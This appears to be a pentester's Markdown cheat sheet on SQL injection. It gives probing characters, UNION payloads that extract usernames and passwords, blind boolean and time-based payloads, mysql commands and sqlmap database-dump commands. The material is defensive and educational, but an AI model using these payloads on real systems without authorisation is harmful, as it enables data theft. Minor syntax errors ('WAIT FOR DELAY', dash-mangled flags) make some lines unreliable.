 # SQLi

## What is SQLi ?

SQL Injection is a web security vulnerability that allows an attacker to interfer with the queries that an application makes to its database.

It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users or any other data that the application itself is able to access.

To test SQLi, we will put special characters into the input fields and observe errors returned by the application. 

```bash
'
"
')
")
'; -- 
"; --
'); -- 
"); --
' or 1=1; --
' or 1; --
' or 'a'='a
SELECT @@version  # Determine what the database information is
```

## Manual 

```bash
 http://target/comment.php?id=1'
 http://target/comment.php?id=1 order by 6
 http://target/comment.php?id=1 union all select 1,2,4,5,6
 http://target/comment.php?id=1 union all select 1,2,4,table_name,6 from information_schema.tables
 http://target/comment.php?id=1 union all select 1,2,4,column_name,6 from information_schema.columns where table_name='users'
 http://target/comment.php?id=1 union all select 1,2,4,concat(name,0x3a,password),6 FROM users
```

## Blind SQLi

Generally occurs when an application is vuln do SQLi but it does not return an error, which makes identifying and exploiting SQLi more difficult. Concatenating strings for known good values can determine if the SQL database is directing interpreting the values we're providing.

* **Boolean based**

```bash
user' AND 1; --  # Test if value is true, if user is a valid user then it returns good
user' AND 0; --  # Test if SQLi is being interpreted, known good username but always false 0
```

* **Time based**

```bash
# MySQL

id=1-SLEEP(15)  # Resulting query (with malicious SLEEP injected).
id=1-BENCHMARK(100000000, rand())  # Resulting query (with malicious BENCHMARK injected).

# SQLServer

id=1; WAIT FOR DELAY '00:00:15'  # Resulting query (with malicious SLEEP injected).
id=1; IF SYSTEM_USER='sa' WAIT FOR DELAY '00:00:15'  # Resulting query (verify if user is sa).
```

## Union Attack

 _When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the `UNION` keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack._

 _The `UNION` keyword lets you execute one or more additional `SELECT` queries and append the results to the original query. For example:_

 _`SELECT a, b FROM table1 UNION SELECT c, d FROM table2`_

 _This SQL query will return a single result set with two columns, containing values from columns `a` and `b` in `table1` and columns `c` and `d` in `table2`_

 For a `UNION` query to work, two key requirements must be met:

*  **The individual queries must return the same number of columns.**
*  **The data types in each column must be compatible between the individual queries.**



* [https://portswigger.net/web-security/sql-injection/union-attacks](https://portswigger.net/web-security/sql-injection/union-attacks)

## Tools

### mysql cheat sheet

```bash
# Built-in mysql tools
mysql -u root    # Attempt to connect to db as root user, default is no pass
mysql -u root -p -h 10.10.10.1    # Connect to db at host 10.10.10.1 as root, prompts for password
mysql -u user1 -puser1pass    # Connect to local db. NOTE no space after '-p' for password!
mysqlshow -u something -psomethingpassword    # Again, NO SPACE AFTER -p FOR PASSWORD

# Inside the mysql shell
show databases;          # List all dbs on server  
use wordpress;           # Use a specific db
show tables;             # Show all tables for current db
describe wp_users;       # Show columns for a specific table
select * from wp_users;  # Dump all records from a table
```

### sqlmap

```bash
sqlmap -u "https://target.com/dir" # Without GET parameter
sqlmap -u "https://target.com/dir.php?id=1"  # With GET parameter

sqlmap –u "http://target.com/login.php" –data 'user=brun0&pass=something' # POST request with data
sqlmap -u "http://target.com/dir.php?id=1&Search=Submit" -p id # Testing id parameter

```

* **If we find SQLi in the target website then we can use the following commands.**

```bash
sqlmap -u "http://target.com/login.php?id=1" --dbs       # Lists all dbs on the host
sqlmap -u "http://target.com/login.php?id=1" -D DB_NAME --tables    # Lists all tables inside all dbs on host
sqlmap -u "http://target.com/login.php?id=1" -D DB_NAME -T TB_NAME --columns # List all columns
sqlmap -u "http://target.com/login.php?id=1" -D DB_NAME -T TB_NAME -C "col1,col2" --dump # List info from columns
sqlmap -u "http://target.com/login.php?id=1" -D DB_NAME --dump # Dump the database
```




